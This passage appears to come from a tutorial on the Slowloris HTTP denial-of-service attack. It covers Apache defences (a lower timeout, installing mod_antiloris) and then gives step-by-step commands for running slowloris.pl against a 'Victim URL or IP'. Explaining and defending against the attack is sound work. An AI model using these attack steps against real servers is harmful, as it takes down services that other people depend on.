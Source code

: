 You can simply modify the timout directive in /etc/httpd/conf/httpd.conf file.

Reducing it to a lower value will atleast make the attack difficult(but still the attack can take down the server, by increasing the number of requests)

This is not at all a good solution.

* mod_antiloris apache module

Another good solution that i tested is an apache module called as mod_antiloris. This module can be installed using the below steps.

```javascript
[root@localhost ~]# wget http://sourceforge.net/projects/mod-antiloris/files/mod_antiloris-0.4.tar.bz2/download
[root@localhost ~]# tar -xvjf mod_antiloris-0.4.tar.bz2
mod_antiloris-0.4/
mod_antiloris-0.4/ChangeLog
mod_antiloris-0.4/mod_antiloris.c
 
[root@localhost ~]# cd mod_antiloris-0.4
[root@localhost mod_antiloris-0.4]# apxs -a -i -c mod_antiloris.c

````

Now simply restart apache to load the new module.


How to use Slowloris
--
Requirements:
#  sudo apt-get update  
#  sudo apt-get install perl
#  sudo apt-get install libwww-mechanize-shell-perl
#  sudo apt-get install perl-mechanize


1)Download slowloris.pl

2)Open Terminal

2)# cd /thePathToYourSlowloris.plFile

3)# ./slowloris.pl

4)# perl slowloris.pl -dns (Victim URL or IP) -options




How does slowloris http dos attack work?
--
An in depth understanding of http request and response is very much necessary to comprehend this attack tool.
